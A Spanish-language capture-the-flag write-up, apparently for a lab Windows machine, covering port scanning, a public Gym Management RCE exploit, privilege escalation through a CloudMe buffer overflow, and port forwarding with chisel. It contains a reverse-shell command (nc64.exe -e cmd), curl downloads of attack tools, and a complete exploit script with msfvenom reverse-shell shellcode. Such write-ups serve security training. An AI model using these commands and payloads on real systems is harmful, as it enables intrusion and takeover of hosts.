






# Enumeración | Reconocimiento | y posibles ataques

Envío paquetes de prueba ICMP (Internet Control Message Protocol) hacia el equipo para verificar conectividad y ver el TTL

ping 10.10.10.198

→
64 bytes from 10.10.10.198: icmp_seq=350 ttl=127 time=236 ms
TTL = 127
Indica que es un equipo Windows
Escaneo de puertos TCP abiertos
nmap -p- -sS --min-rate 5000 -vv -n 10.10.10.203 -oG PortStatus

→
PORT 	STATE SERVICE	REASON
7680/tcp open  pando-pub  syn-ack ttl 127
8080/tcp open  http-proxy syn-ack ttl 127

Puertos abiertos:

* 7680
* 8080

nmap -p8080,7680 -sCV 10.10.10.198

→ 
PORT 	STATE SERVICE	VERSION
7680/tcp open  pando-pub?
8080/tcp open  http   	Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

whatweb http://10.10.10.198:8080

Versión antigua de JQuery 1.11.0 / 1.9.1
PasswordField[password] →Existe un  panel de autenticación

→ 
Gym Management Software 1.0

searchsploit Gym Management Software 1.0

→
Exploits: No Results
Shellcodes: No Results

searchsploit Gym Management

→
------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                               	|  Path
------------------------------------------------------------------------------------------------- ---------------------------------
Gym Management System 1.0 - 'id' SQL Injection                                               	| php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass                                            	| php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scripting                                      	| php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remote Code Execution                            	| php/webapps/48506.py
------------------------------------------------------------------------------------------------- ---------------------------------

CRITICO: Unauthenticated Remote Code Execution

# Explotación y movimiento lateral

Copio el script 

searchsploit -m php/webapps/48506.py

→
  Exploit: Gym Management System 1.0 - Unauthenticated Remote Code Execution
  	URL: https://www.exploit-db.com/exploits/48506
 	Path: /usr/share/exploitdb/exploits/php/webapps/48506.py
	Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/kali/Desktop/48506.py

Ejecución de exploit:

python2 48506.py "http://10.10.10.198:8080/"

→

FLAG

Descargo netcat y lo comparto con SMBSERVER

python3 smbserver.py compartido /home/kali/Desktop -smb2support

En escucha el puerto 443

rlwrap nc -nlvp 443

En equipo victima me envío la shell

C:\xampp\htdocs\gym\upload>\\10.10.14.10\compartido\nc64.exe -e cmd 10.10.14.10 443

Uso winPEAS para detectar formas de escalar privilegios

https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

winPEASx64.exe

Comparto el winPEASx64.exe desde el equipo atacante
python3 -m http.server 8080

Descargo winPEASx64.exe en máquina víctima
curl http://10.10.14.10:8080/winPEASx64.exe -o winPEASx64.exe

Ejecutamos winPEASx64.exe en la máquina y detectamos:
“C:\Users\shaun\Downloads\CloudMe_1112.exe” : shaun [AllAccess]

Encontramos en Google que CloudMe utiliza el puerto 8888

Máquina víctima
Verifico que CloudMe está ejecutándose en el puerto 8888
netstat -nat

→ 
localhost:8888

Busco vulnerabilidades
searchsploit CLoudMe

→
---------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                      	|  Path
---------------------------------------------------------------------------------------- ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                                              	| windows/remote/48389.py
CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)                                     	| windows/local/48499.txt
CloudMe 1.11.2 - Buffer Overflow ROP (DEP_ASLR)                                     	| windows/local/48840.py
Cloudme 1.9 - Buffer Overflow (DEP) (Metasploit)                                    	| windows_x86-64/remote/45197.rb
CloudMe Sync 1.10.9 - Buffer Overflow (SEH)(DEP Bypass)                             	| windows_x86-64/local/45159.py
CloudMe Sync 1.10.9 - Stack-Based Buffer Overflow (Metasploit)                      	| windows/remote/44175.rb
CloudMe Sync 1.11.0 - Local Buffer Overflow                                         	| windows/local/44470.py
CloudMe Sync 1.11.2 - Buffer Overflow + Egghunt                                     	| windows/remote/46218.py
CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP Bypass)                            	| windows_x86-64/remote/46250.py
CloudMe Sync < 1.11.0 - Buffer Overflow                                             	| windows/remote/44027.py
CloudMe Sync < 1.11.0 - Buffer Overflow (SEH) (DEP Bypass)                          	| windows_x86-64/remote/44784.py
---------------------------------------------------------------------------------------- ---------------------------------

https://github.com/jpillora/chisel/releases

python -m http.server 80

curl http://10.10.14.10/chisel_1.8.1_windows_amd64 -o chisel.exe

Port Forwarding

Atacante

chmod 777 chisel_1.8.1_linux_amd64

./chisel_1.8.1_linux_amd64 server --reverse -p 1234

Víctima

chisel.exe client 10.10.14.10:1234 R:8888:127.0.0.1:8888

# Explotación WEB

# Escalada de privilegios

Escalada con BufferOver Flow

Creación de payload para modificar en el script de BufferOverFlow

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 --platform windows -a x86 -b "\x00\x0a\x0d" -f c EXITFUNC=thread
→
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1506 bytes
unsigned char buf[] =
"\xbb\xb5\xa3\x1f\xda\xdd\xc3\xd9\x74\x24\xf4\x5d\x2b\xc9"
"\xb1\x52\x83\xed\xfc\x31\x5d\x0e\x03\xe8\xad\xfd\x2f\xee"
"\x5a\x83\xd0\x0e\x9b\xe4\x59\xeb\xaa\x24\x3d\x78\x9c\x94"
"\x35\x2c\x11\x5e\x1b\xc4\xa2\x12\xb4\xeb\x03\x98\xe2\xc2"
"\x94\xb1\xd7\x45\x17\xc8\x0b\xa5\x26\x03\x5e\xa4\x6f\x7e"
"\x93\xf4\x38\xf4\x06\xe8\x4d\x40\x9b\x83\x1e\x44\x9b\x70"
"\xd6\x67\x8a\x27\x6c\x3e\x0c\xc6\xa1\x4a\x05\xd0\xa6\x77"
"\xdf\x6b\x1c\x03\xde\xbd\x6c\xec\x4d\x80\x40\x1f\x8f\xc5"
"\x67\xc0\xfa\x3f\x94\x7d\xfd\x84\xe6\x59\x88\x1e\x40\x29"
"\x2a\xfa\x70\xfe\xad\x89\x7f\x4b\xb9\xd5\x63\x4a\x6e\x6e"
"\x9f\xc7\x91\xa0\x29\x93\xb5\x64\x71\x47\xd7\x3d\xdf\x26"
"\xe8\x5d\x80\x97\x4c\x16\x2d\xc3\xfc\x75\x3a\x20\xcd\x85"
"\xba\x2e\x46\xf6\x88\xf1\xfc\x90\xa0\x7a\xdb\x67\xc6\x50"
"\x9b\xf7\x39\x5b\xdc\xde\xfd\x0f\x8c\x48\xd7\x2f\x47\x88"
"\xd8\xe5\xc8\xd8\x76\x56\xa9\x88\x36\x06\x41\xc2\xb8\x79"
"\x71\xed\x12\x12\x18\x14\xf5\x17\xd7\x18\x0f\x40\xe5\x24"
"\x0e\x2b\x60\xc2\x7a\x5b\x25\x5d\x13\xc2\x6c\x15\x82\x0b"
"\xbb\x50\x84\x80\x48\xa5\x4b\x61\x24\xb5\x3c\x81\x73\xe7"
"\xeb\x9e\xa9\x8f\x70\x0c\x36\x4f\xfe\x2d\xe1\x18\x57\x83"
"\xf8\xcc\x45\xba\x52\xf2\x97\x5a\x9c\xb6\x43\x9f\x23\x37"
"\x01\x9b\x07\x27\xdf\x24\x0c\x13\x8f\x72\xda\xcd\x69\x2d"
"\xac\xa7\x23\x82\x66\x2f\xb5\xe8\xb8\x29\xba\x24\x4f\xd5"
"\x0b\x91\x16\xea\xa4\x75\x9f\x93\xd8\xe5\x60\x4e\x59\x05"
"\x83\x5a\x94\xae\x1a\x0f\x15\xb3\x9c\xfa\x5a\xca\x1e\x0e"
"\x23\x29\x3e\x7b\x26\x75\xf8\x90\x5a\xe6\x6d\x96\xc9\x07"
"\xa4";

searchsploit CloudMe

→
CloudMe 1.11.2 - Buffer Overflow (PoC)                                              	| windows/remote/48389.py

searchsploit -w windows/remote/48389.py

→
CloudMe 1.11.2 - Buffer Overflow (PoC)                                   	| https://www.exploit-db.com/exploits/48389

Script final con payload modificado

#Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)

#Date: 2020-04-27

#Exploit Author: Andy Bowden

#Vendor Homepage: https://www.cloudme.com/en

#Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe

#Version: CloudMe 1.11.2

#Tested on: Windows 10 x86

#Instructions:

#Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP    	= b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS   	= b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
#payload	= b"\xba\xad\x1e\x7c\x02\xdb\xcf\xd9\x74\x24\xf4\x5e\x33"
#payload   += b"\xc9\xb1\x31\x83\xc6\x04\x31\x56\x0f\x03\x56\xa2\xfc"
#payload   += b"\x89\xfe\x54\x82\x72\xff\xa4\xe3\xfb\x1a\x95\x23\x9f"
#payload   += b"\x6f\x85\x93\xeb\x22\x29\x5f\xb9\xd6\xba\x2d\x16\xd8"
#payload   += b"\x0b\x9b\x40\xd7\x8c\xb0\xb1\x76\x0e\xcb\xe5\x58\x2f"
#payload   += b"\x04\xf8\x99\x68\x79\xf1\xc8\x21\xf5\xa4\xfc\x46\x43"
#payload   += b"\x75\x76\x14\x45\xfd\x6b\xec\x64\x2c\x3a\x67\x3f\xee"
#payload   += b"\xbc\xa4\x4b\xa7\xa6\xa9\x76\x71\x5c\x19\x0c\x80\xb4"
#payload   += b"\x50\xed\x2f\xf9\x5d\x1c\x31\x3d\x59\xff\x44\x37\x9a"
#payload   += b"\x82\x5e\x8c\xe1\x58\xea\x17\x41\x2a\x4c\xfc\x70\xff"
#payload   += b"\x0b\x77\x7e\xb4\x58\xdf\x62\x4b\x8c\x6b\x9e\xc0\x33"
#payload   += b"\xbc\x17\x92\x17\x18\x7c\x40\x39\x39\xd8\x27\x46\x59"
#payload   += b"\x83\x98\xe2\x11\x29\xcc\x9e\x7b\x27\x13\x2c\x06\x05"
#payload   += b"\x13\x2e\x09\x39\x7c\x1f\x82\xd6\xfb\xa0\x41\x93\xf4"
#payload   += b"\xea\xc8\xb5\x9c\xb2\x98\x84\xc0\x44\x77\xca\xfc\xc6"
#payload   += b"\x72\xb2\xfa\xd7\xf6\xb7\x47\x50\xea\xc5\xd8\x35\x0c"
#payload   += b"\x7a\xd8\x1f\x6f\x1d\x4a\xc3\x5e\xb8\xea\x66\x9f"

#msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 --platform windows -a x86 -b "\x00\x0a\x0d" -f c EXITFUNC=thread
shellcode= (b"\xbb\xb5\xa3\x1f\xda\xdd\xc3\xd9\x74\x24\xf4\x5d\x2b\xc9"
b"\xb1\x52\x83\xed\xfc\x31\x5d\x0e\x03\xe8\xad\xfd\x2f\xee"
b"\x5a\x83\xd0\x0e\x9b\xe4\x59\xeb\xaa\x24\x3d\x78\x9c\x94"
b"\x35\x2c\x11\x5e\x1b\xc4\xa2\x12\xb4\xeb\x03\x98\xe2\xc2"
b"\x94\xb1\xd7\x45\x17\xc8\x0b\xa5\x26\x03\x5e\xa4\x6f\x7e"
b"\x93\xf4\x38\xf4\x06\xe8\x4d\x40\x9b\x83\x1e\x44\x9b\x70"
b"\xd6\x67\x8a\x27\x6c\x3e\x0c\xc6\xa1\x4a\x05\xd0\xa6\x77"
b"\xdf\x6b\x1c\x03\xde\xbd\x6c\xec\x4d\x80\x40\x1f\x8f\xc5"
b"\x67\xc0\xfa\x3f\x94\x7d\xfd\x84\xe6\x59\x88\x1e\x40\x29"
b"\x2a\xfa\x70\xfe\xad\x89\x7f\x4b\xb9\xd5\x63\x4a\x6e\x6e"
b"\x9f\xc7\x91\xa0\x29\x93\xb5\x64\x71\x47\xd7\x3d\xdf\x26"
b"\xe8\x5d\x80\x97\x4c\x16\x2d\xc3\xfc\x75\x3a\x20\xcd\x85"
b"\xba\x2e\x46\xf6\x88\xf1\xfc\x90\xa0\x7a\xdb\x67\xc6\x50"
b"\x9b\xf7\x39\x5b\xdc\xde\xfd\x0f\x8c\x48\xd7\x2f\x47\x88"
b"\xd8\xe5\xc8\xd8\x76\x56\xa9\x88\x36\x06\x41\xc2\xb8\x79"
b"\x71\xed\x12\x12\x18\x14\xf5\x17\xd7\x18\x0f\x40\xe5\x24"
b"\x0e\x2b\x60\xc2\x7a\x5b\x25\x5d\x13\xc2\x6c\x15\x82\x0b"
b"\xbb\x50\x84\x80\x48\xa5\x4b\x61\x24\xb5\x3c\x81\x73\xe7"
b"\xeb\x9e\xa9\x8f\x70\x0c\x36\x4f\xfe\x2d\xe1\x18\x57\x83"
b"\xf8\xcc\x45\xba\x52\xf2\x97\x5a\x9c\xb6\x43\x9f\x23\x37"
b"\x01\x9b\x07\x27\xdf\x24\x0c\x13\x8f\x72\xda\xcd\x69\x2d"
b"\xac\xa7\x23\x82\x66\x2f\xb5\xe8\xb8\x29\xba\x24\x4f\xd5"
b"\x0b\x91\x16\xea\xa4\x75\x9f\x93\xd8\xe5\x60\x4e\x59\x05"
b"\x83\x5a\x94\xae\x1a\x0f\x15\xb3\x9c\xfa\x5a\xca\x1e\x0e"
b"\x23\x29\x3e\x7b\x26\x75\xf8\x90\x5a\xe6\x6d\x96\xc9\x07"
b"\xa4")

overrun	= b"C" * (1500 - len(padding1 + NOPS + EIP + shellcode))

buf = padding1 + EIP + NOPS + shellcode + overrun

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target,8888))
    s.send(buf)
except Exception as e:
    print(sys.exc_value)

En escucha por puerto 443 y ejecutar script

rlwrap nc -nlvp 443

python2 exploitflow.py

→

# Links útiles
* https://eternallybored.org/misc/netcat/
* https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
* www.google.com
* https://github.com/jpillora/chisel/releases

  
  
  
## Lenguajes utilizados
## Vulnerabilidades en aplicaciones
* CloudMe
## Ataques
* BufferOverflow
## Escalada de privilegios
* *BufferOverflow
## Exploits
## Herramientas
* CloudMe
